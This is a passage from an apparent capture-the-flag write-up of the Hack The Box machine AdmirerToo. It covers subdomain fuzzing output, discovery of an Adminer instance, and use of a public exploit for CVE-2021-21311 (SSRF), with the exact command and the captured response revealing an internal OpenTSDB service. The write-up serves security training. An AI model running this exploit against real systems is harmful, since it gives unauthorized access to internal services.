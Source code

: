```
:: Filter           : Response size: 14099  
________________________________________________  
  
db                      [Status: 200, Size: 2569, Words: 113, Lines: 63]  
:: Progress: [4989/4989] :: Job [1/1] :: 2494 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

There's a subdomain `db.admirer-gallery.htb` to check out here. Since there's not much in terms of functionality on the main website, this could be where our way in lies.

**The DB Subdomain**

![](https://cybersec.deadandbeef.com/images/AdmirerToo/adminer.png)

The page is for a plugin called Adminer, an alternative to phpMyAdmin. Looking up the version of Adminer displayed, results return for CVE-2021-21311, a server side request forgery (SSRF) vulnerability. A prebuilt Python exploit ([here](https://github.com/llhala/CVE-2021-21311)) exists for us to take advantage of it. There's a port we weren't able to access before (4242), but it's possible that we can access this service with the SSRF.

### Foothold

The script takes three different parameters: a local address, the Adminer instance URL, and URL to access from the server. An HTTP server will be created to redirect Adminer's callback to us, which returns the contents of the URL we specify. This is what I ran:
```
sudo python3 CVE-2021-21311.py --host 10.10.14.12 --url http://db.admirer-gallery.htb --redirect http://127.0.0.1:4242
```

What's in this internal service? Fortunately, the mess of HTML we get can tell us that:
```
Running HTTP Server on 10.10.14.12:80  
[CVE-2021-21311]  
[CLIENT] 10.10.11.137:45244  
[REQUEST]  
GET / HTTP/1.0  
Authorization: Basic Og==  
Host: 10.10.14.12  
Connection: close  
Content-Length: 2  
Content-Type: application/json  
[DATA]  
[]  
[SSRF Response]  
<!DOCTYPE html><html><head><meta http-equiv=content-type content="text/html;charset=utf-8"><title>OpenTSDB</title>  
<style><!--  
body{font-family:arial,sans-serif;margin-left:2em}A.l:link{color:#6f6f6f}A.u:link{color:green}.fwf{font-family:monospace;white-space:pre-wrap}//--></style><script type=text/jav  
ascript language=javascript src=s/queryui.nocache.js></script></head>  
<body text=#000000 bgcolor=#ffffff><table border=0 cellpadding=2 cellspacing=0 width=100%><tr><td rowspan=3 width=1% nowrap><img src=s/opentsdb_header.jpg><td>&nbsp;</td></tr><  
tr><td><font color=#507e9b><b></b></td></tr><tr><td>&nbsp;</td></tr></table><div id=queryuimain></div><noscript>You must have JavaScript enabled.</noscript><iframe src=javascri  
pt:'' id=__gwt_historyFrame tabIndex=-1 style=position:absolute;width:0;height:0;border:0></iframe><table width=100% cellpadding=0 cellspacing=0><tr><td class=subg><img alt=""  
width=1 height=6></td></tr></table></body></html>
```
